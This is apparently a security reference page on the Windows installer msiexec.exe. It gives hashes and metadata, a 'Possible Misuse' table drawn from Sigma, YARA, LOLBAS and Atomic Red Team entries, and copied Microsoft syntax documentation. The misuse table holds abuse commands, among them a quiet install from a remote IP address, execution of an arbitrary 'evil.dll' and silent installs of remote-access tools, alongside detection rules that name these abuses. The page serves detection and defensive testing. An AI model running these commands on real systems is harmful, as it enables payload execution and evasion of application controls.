

---
title: msiexec.exe | Windows installer
excerpt: What is msiexec.exe?
---

# msiexec.exe 

* File Path: `C:\windows\SysWOW64\msiexec.exe`
* Description: Windows installer

## Screenshot



## Hashes

Type | Hash
-- | --
MD5 | `33B2E4E3E4D6DCF296FD0B7C0843AB3F`
SHA1 | `F657B1725214EBD6FAAB0DEF0D79183B5DE89FA5`
SHA256 | `D88E2D981610EA24EE22B83CC284D6C616F3674E8F1F5D3794C9FCD569E8DADD`
SHA384 | `894DD3E761895C32F4C0281B39DAF7807A25F0CE4D9C95D07D3F459CC368031C6BC0538F96017AE242C23766C216C071`
SHA512 | `82B01B7B89E535E3A39C2751303FDDA1114039BD2346CAD9B4402F85D4BE08FDDA4B2133D826F1A708FD1E64AB4197EFD384AF7DF150ABAA5131AF36A683E392`
SSDEEP | `768:U1SJQu5Ux7K5kUfEvRRAZ4nwoouXzeI619TNplGYCj55/3bF6dCeYOnE:U1Sk7K6ZRBouXzeNoY8n/LFji`

## Signature

* Status: The file C:\windows\SysWOW64\msiexec.exe is not digitally signed. You cannot run this script on the current system. For more information about running scripts and setting execution policy, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170
* Serial: ``
* Thumbprint: ``
* Issuer: 
* Subject: 

## File Metadata

* Original Filename: msiexec.exe.mui
* Product Name: Windows Installer - Unicode
* Company Name: Microsoft Corporation
* File Version: 5.0.9600.16384 (winblue_rtm.130821-1623)
* Product Version: 5.0.9600.16384
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.


## Possible Misuse

*The following table contains possible examples of `msiexec.exe` being misused. While `msiexec.exe` is **not** inherently malicious, its legitimate functionality can be abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/create_remote_thread/sysmon_suspicious_remote_thread.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_susp_desktop_ini.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/file_event/sysmon_susp_desktop_ini.yml) | `- 'C:\Windows\System32\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_dbghelp_dbgcore_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/sysmon_suspicious_dbghelp_dbgcore_load.yml) | `# - '\msiexec.exe'  an installer installing a program using one of those DLL will raise an alert`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_suspicious_vss_ps_load.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/image_load/win_suspicious_vss_ps_load.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_svchost_cred_dump.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_svchost_cred_dump.yml) | `- '*\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_lolbins_by_office_applications.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_lolbins_by_office_applications.yml) | `- 'msiexec'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_lolbins_with_wmiprvse_parent_process.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_lolbins_with_wmiprvse_parent_process.yml) | `- 'msiexec'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_from_proxy_executing_regsvr32_payload.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_from_proxy_executing_regsvr32_payload.yml) | `- 'msiexec'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [process_creation_office_from_proxy_executing_regsvr32_payload2.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/process_creation_office_from_proxy_executing_regsvr32_payload2.yml) | `- '*msiexec*'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_msi_spawned_cmd_and_powershell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/sysmon_always_install_elevated_msi_spawned_cmd_and_powershell.yml) | `description: This rule will looks for Windows Installer service (msiexec.exe) spawned command line and/or powershell`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_windows_installer.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/sysmon_always_install_elevated_windows_installer.yml) | `description: This rule will looks for Windows Installer service (msiexec.exe) when it tries to install MSI packages with SYSTEM privilege `{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_windows_installer.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/sysmon_always_install_elevated_windows_installer.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_attrib_hiding_files.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_attrib_hiding_files.yml) | `- msiexec.exe hiding desktop.ini`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- 'msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- "msiexec.exe"`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_script_event_consumer_spawn.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_script_event_consumer_spawn.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_cwd.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_cwd.yml) | `title: Suspicious MsiExec Directory`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_cwd.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_cwd.yml) | `description: Detects suspicious msiexec process starts in an uncommon directory`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_cwd.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_cwd.yml) | `Image\|endswith: '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_web_install.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_web_install.yml) | `title: MsiExec Web Install`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_web_install.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_web_install.yml) | `description: Detects suspicious msiexec process starts with web addresses as parameter`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_web_install.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_web_install.yml) | `- https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_msiexec_web_install.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_msiexec_web_install.yml) | `- ' msiexec'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_servu_process_pattern.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_servu_process_pattern.yml) | `- '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_office_vsto_persistence.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_office_vsto_persistence.yml) | `Image\|endswith: '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_ssp_added_lsa_config.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_ssp_added_lsa_config.yml) | `- Image: C:\Windows\system32\msiexec.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_ssp_added_lsa_config.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_ssp_added_lsa_config.yml) | `- Image: C:\Windows\syswow64\MsiExec.exe`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_msi_spawned_cmd_and_powershell_spawned_processes.yml](https://github.com/Neo23x0/sigma/blob/master/rules-unsupported/sysmon_always_install_elevated_msi_spawned_cmd_and_powershell_spawned_processes.yml) | `description: This rule will looks for Windows Installer service (msiexec.exe) spawned command line and/or powershell that spawned other processes`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_parent_child_correlated.yml](https://github.com/Neo23x0/sigma/blob/master/rules-unsupported/sysmon_always_install_elevated_parent_child_correlated.yml) | `description: This rule will looks any process with low privilege launching Windows Installer service (msiexec.exe) that tries to install MSI packages with SYSTEM privilege `{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_always_install_elevated_parent_child_correlated.yml](https://github.com/Neo23x0/sigma/blob/master/rules-unsupported/sysmon_always_install_elevated_parent_child_correlated.yml) | `Image\|endswith: '\msiexec.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `Name: Msiexec.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Command: msiexec /quiet /i cmd.msi`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Command: msiexec /y "C:\folder\evil.dll"`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Command: msiexec /z "C:\folder\evil.dll"`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Path: C:\Windows\System32\msiexec.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Path: C:\Windows\SysWOW64\msiexec.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- IOC: msiexec.exe getting files from Internet`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Msiexec.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Msiexec.yml) | `- Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/`{:.highlight .language-yaml} | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - [T1218.007 Msiexec](../../T1218.007/T1218.007.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #1: Msiexec.exe - Execute Local MSI file [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #2: Msiexec.exe - Execute Remote MSI file [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #3: Msiexec.exe - Execute Arbitrary DLL [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - [T1218.007 Msiexec](../../T1218.007/T1218.007.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #1: Msiexec.exe - Execute Local MSI file [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #2: Msiexec.exe - Execute Remote MSI file [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #3: Msiexec.exe - Execute Arbitrary DLL [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/matrix.md) | \|  \|  \| [Scheduled Task](../../T1053.005/T1053.005.md) \| Thread Execution Hijacking [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| [Msiexec](../../T1218.007/T1218.007.md) \|  \|  \|  \|  \|  \|  \|  \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/windows-matrix.md) | \|  \|  \| [Security Support Provider](../../T1547.005/T1547.005.md) \| [Token Impersonation/Theft](../../T1134.001/T1134.001.md) \| [Msiexec](../../T1218.007/T1218.007.md) \|  \|  \|  \|  \|  \|  \|  \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1072.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1072/T1072.md) | msiexec /i "#{radmin_installer}" /qn | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | # T1218.007 - Msiexec | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | <blockquote>Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).(Citation: Microsoft msiexec) Msiexec.exe is digitally signed by Microsoft. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.(Citation: LOLBAS Msiexec)(Citation: TrendMicro Msiexec Feb 2018) Since it is signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse. Msiexec.exe execution may also be elevated to SYSTEM privileges if the <code>AlwaysInstallElevated</code> policy is enabled.(Citation: Microsoft AlwaysInstallElevated 2018)</blockquote> | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | - [Atomic Test #1 - Msiexec.exe - Execute Local MSI file](#atomic-test-1---msiexecexe---execute-local-msi-file) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | - [Atomic Test #2 - Msiexec.exe - Execute Remote MSI file](#atomic-test-2---msiexecexe---execute-remote-msi-file) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | - [Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL](#atomic-test-3---msiexecexe---execute-arbitrary-dll) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | ## Atomic Test #1 - Msiexec.exe - Execute Local MSI file | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | msiexec.exe /q /i "#{msi_payload}" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | ## Atomic Test #2 - Msiexec.exe - Execute Remote MSI file | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | ## Atomic Test #3 - Msiexec.exe - Execute Arbitrary DLL | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.007.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.007/T1218.007.md) | msiexec.exe /y "#{dll_payload}" | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1219.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1219/T1219.md) | Msiexec will be used to quietly insall ScreenConnect. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1219.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1219/T1219.md) | msiexec /i $installer /qn | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1219.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1219/T1219.md) | $installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi" msiexec /x $installer /qn | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1555.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1555.003/T1555.003.md) | msiexec /i $installer /qn | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_apt29_nobelium_may21.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_apt29_nobelium_may21.yar) | Not shared publicly: rules for CobaltStrike loader samples, ISOs, specifc msiexec method found in some samples | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_blackenergy.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_blackenergy.yar) | $s2 = "msiexec.exe" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_win_plugx.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_win_plugx.yar) | $s2 = "%s\\msiexec.exe %d %d" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_win_plugx.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_win_plugx.yar) | $s4 = "%s\\msiexec.exe UAC" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $x1 = "msiexec /f c:\\users\\%username%\\downloads\\" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s2 = "Full path: C:\\Windows\\system32\\msiexec.exe /V" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[stockpile](https://github.com/mitre/stockpile) | [60f63260-39bb-4136-87a0-b6c2dca799fc.yml](https://github.com/mitre/stockpile/blob/master/data/abilities/command-and-control/60f63260-39bb-4136-87a0-b6c2dca799fc.yml) | `Start-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 ENABLE_PSREMOTING=1 REGISTER_MANIFEST=1" -Wait;`{:.highlight .language-yaml} | [Apache-2.0](https://github.com/mitre/stockpile/blob/master/LICENSE)

## Additional Info*

**The information below is copied from [MicrosoftDocs](https://github.com/MicrosoftDocs/windowsserverdocs), which is maintained by [Microsoft](https://opensource.microsoft.com/codeofconduct/). Available under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) license.*

---

## msiexec

Provides the means to install, modify, and perform operations on Windows Installer from the command line.

### Install options

Set the install type for launching an installation package.

#### Syntax

```
msiexec.exe [/i][/a][/j{u|m|/g|/t}][/x] <path_to_package>
```

##### Parameters

| Parameter | Description |
| ------- | -------- |
| /i | Specifies normal installation. |
| /a | Specifies administrative installation. |
| /ju | Advertise the product to the current user. |
| /jm | Advertise the product to all users. |
| /j/g | Specifies the language identifier used by the advertised package. |
| /j/t | Applies transform to the advertised package. |
| /x | Uninstalls the package. |
| `<path_to_package>` | Specifies the location and name of the installation package file. |

##### Examples

To install a package named *example.msi* from the C: drive, using a normal installation process, type:

```
msiexec.exe /i "C:\example.msi"
```

### Display options

